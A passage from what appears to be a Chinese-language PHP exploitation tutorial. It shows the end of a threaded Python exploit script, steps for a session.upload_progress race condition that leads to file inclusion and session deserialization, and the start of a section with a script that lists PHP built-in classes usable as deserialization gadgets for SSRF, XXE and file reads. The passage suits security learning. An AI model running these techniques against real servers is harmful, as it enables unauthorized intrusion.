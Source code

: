 ```
            et.clear()
            print('success!')
            

if __name__ == "__main__":
    ip=sys.argv[1]
    port=int(sys.argv[2])
    et=threading.Event()
    for i in xrange(1,40):
        threading.Thread(target=exp,args=(ip,port)).start()
    et.set()

```

首先在代码里加个代理，利用burp抓包。如下图

![利用session.upload_progress进行文件包含和反序列化渗透](assets/1557146875_5cd02cfb01b9e.png!small)

这里有几个注意点：

> PHPSESSID必须要有，因为要竞争同一个文件
>
> filename可控，但是在值的最前面加上`|`,因为最终目的是利用session的反序列化，`PHP_SESSION_UPLOAD_PROGRESS`只是个跳板。其次把字符串中的双引号转义，以防止与最外层的双引号冲突
>
> 上传的文件要大些，否则很难竞争成功。我写入是这么大`f = io.BytesIO(b'a' * 1024 *1024*1)`
>
> filename值中出现汉字时，会出错，所以在利用脚本前，[一定要修改python源码](https://blog.csdn.net/iriszx999/article/details/82113521)

最后把`exp.py`中的代理去掉，直接跑`exp.py`,效果如下。

![利用session.upload_progress进行文件包含和反序列化渗透](assets/1557146899_5cd02d139da64.png!small)



## 0x06 php原生类反序列化（SoapClient）

思考一个问题，当目标php代码***只有一个类或者没有类利用***时，我们是否就完全没有了利用手段，只能放弃？

你可能会说是，但其实不然。

在php代码中没有可利用的类时，我们还可以调用php的内置类（原生类）来进行**XSS,反序列化，SSRF，XXE和读文件**等一系列的操作。内置类，顾名思义就是php本身存在的类，我们可以直接拿过来用。本次来学习经常能用到的几种内置类。  

```php
 <?php
$classes = get_declared_classes();
//get_declared_classes()函数是PHP中的内置函数，用于返回具有
//已定义类名称的数组。用户数组，其中包含当前脚本中所有system-defined(例如PDO，XML阅读器等)的列表以及用户定义的类。
foreach ($classes as $class) {
    $methods = get_class_methods($class);// 函数的作用是返回由类的方法名组成的数组
    foreach ($methods as $method) {
        if (in_array($method, array(
            '__destruct',
            '__toString',
            '__wakeup',
            '__call',
            '__callStatic',
            '__get',
            '__set',
            '__isset',
            '__unset',
            '__invoke',
            '__set_state'    // 可以根据题目环境将指定的方法添加进来, 来遍历存在指定方法的原生类
        ))) {
            print $class . '::' . $method . "\n";
```